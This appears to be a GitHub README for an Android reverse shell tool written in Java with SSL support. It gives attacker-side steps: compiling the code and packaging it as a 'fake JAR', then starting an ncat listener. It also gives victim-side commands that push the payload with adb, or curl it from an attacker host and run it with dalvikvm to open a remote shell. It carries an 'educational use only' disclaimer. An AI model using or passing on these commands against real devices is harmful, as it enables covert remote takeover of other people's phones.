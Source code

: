 # Pure Java Android Reverse Shell (with SSL Support)

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

UPDATED WITH SSL SUPPORT https://github.com/CalfCrusher/JavaAndroidReverseShell/tree/main/SSL

## On Attacker machine - Linux for example -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 AndroidReverseShell.class`

#### Create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

or you can just use dalvikvm from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`<br/>
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Todo

~~Support for SSL encryption~~

## Disclaimer:

For educational use only !

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java. All credits goes to original developer

